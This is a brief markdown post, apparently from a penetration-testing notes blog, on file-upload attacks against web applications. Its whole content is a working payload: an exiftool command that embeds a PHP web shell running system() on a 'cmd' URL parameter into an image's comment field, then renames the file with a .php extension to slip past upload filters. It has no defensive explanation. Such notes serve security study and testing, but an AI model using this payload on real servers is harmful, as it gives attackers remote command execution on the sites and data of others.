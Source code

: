 ```yaml
---
layout: post
title:  "webapp attacks - file upload"
date:   2022-01-01
categories: web
---
```



## Exiftool php in image

```bash

exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' 1.jpg

mv 1.jpg 1.jpg.php

```